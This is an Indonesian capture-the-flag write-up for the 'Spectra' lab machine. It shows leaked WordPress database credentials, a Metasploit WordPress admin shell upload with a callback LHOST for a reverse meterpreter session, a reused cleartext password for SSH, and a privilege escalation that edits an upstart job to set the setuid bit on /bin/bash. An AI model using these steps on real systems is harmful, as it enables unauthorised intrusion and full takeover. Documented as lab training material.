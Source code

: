# Spectra Writeup

Pertama dari website terlihat dua pilihan ke website utama atau testing. Dari website utama diketahui menggunakan wordpress. Namun jika tidak bisa membuak websitenya maka perlu menambahakan `10.10.10.229 spectra.htb` pada `/etc/hosts`. Setelahnya website bisa dibuat normal.

Pada website testing terdapat misconfiguration mengenai directory pada wordpress. Ketika dicek terdapat file wp-config.php.save yang jika kita curl bisa mendapatkan credentials untuk loginnya.

cred :
```php
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
```

Selanjutnya coba login ke /main/wp-admin/ dengan credential yang sama namun tidak bisa. Sekarang coba dengan username `administrator` ternyata bisa. Selanjutnya bisa mencari cve karena memang versi wordpress sudah tua biasanya ada cve yang bisa digunakan. Kita coba dengan msfconsole untuk mendapatkan meterpreter. 

```
msf6 > search wp admin

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   auxiliary/gather/alienvault_newpolicyform_sqli            2014-05-09       normal     No     AlienVault Authenticated SQL Injection Arbitrary File Read
   1   auxiliary/scanner/http/gavazzi_em_login_loot                               normal     No     Carlo Gavazzi Energy Meters - Login Brute Force, Extract Info and Dump Plant Database
   2   auxiliary/admin/netbios/netbios_spoof                                      normal     No     NetBIOS Response Brute Force Spoof (Direct)
   3   auxiliary/admin/sap/sap_configservlet_exec_noauth         2012-11-01       normal     No     SAP ConfigServlet OS Command Execution
   4   auxiliary/admin/sap/cve_2020_6207_solman_rce              2020-10-03       normal     No     SAP Solution Manager remote unauthorized OS commands execution
   5   exploit/multi/sap/cve_2020_6207_solman_rs                 2020-10-03       normal     Yes    SAP Solution Manager remote unauthorized OS commands execution
   6   exploit/multi/http/sonicwall_gms_upload                   2012-01-17       excellent  Yes    SonicWALL GMS 6 Arbitrary File Upload
   7   exploit/linux/http/sophos_wpa_iface_exec                  2014-04-08       excellent  No     Sophos Web Protection Appliance Interface Authenticated Arbitrary Command Execution
   8   auxiliary/admin/http/sophos_wpa_traversal                 2013-04-03       normal     No     Sophos Web Protection Appliance patience.cgi Directory Traversal
   9   exploit/windows/local/wmi_persistence                     2017-06-06       normal     No     WMI Event Subscription Persistence
   10  exploit/unix/webapp/wp_admin_shell_upload                 2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

Kemudian `use 10` kita akan menggunakan nya untuk mendapatkan shell dari cred admin yang kita punya. Kita atur option untuk exploitnya seperti dibawah, dan berhasil mendapat metrperter.

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD devteam01
PASSWORD => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.229
RHOSTS => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.16.17
LHOST => 10.10.16.17
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /main
TARGETURI => /main

```

Kita sekarang login sebagai nginx. Ketika menjelajahi folder home kita menemukan banyak user, dan terntaya flag user terdapat pada katie. Selanjutnya kita menjelajah lagi dan membuka file /opt/autologin.conf.fig didalamnya:

```sh
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
```

Dari sini kita bisa `cat /opt/autologin` dan didapatkan password `SummerHereWeCome!!`. Konek menggunakan ssh sebagi katie dan mendapatkan flag user :e89d27fe195e9114ffa72ba8913a6130.


Selanjutnya priviledge escalation kita cek sudo -l hasilnya

```
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

cek service apa yang berjalan `/sbin/initctl list` dan terdapat beberapa service custom yaitu test dan test1. File yang tedapat di list tersebut ada dalam folder /etc/init. Sekarang kita edit /etc/init/test.conf menjadi:

```
description "Test node.js server"
author      "katie"

script
    chmod +s /bin/bash
end script
```
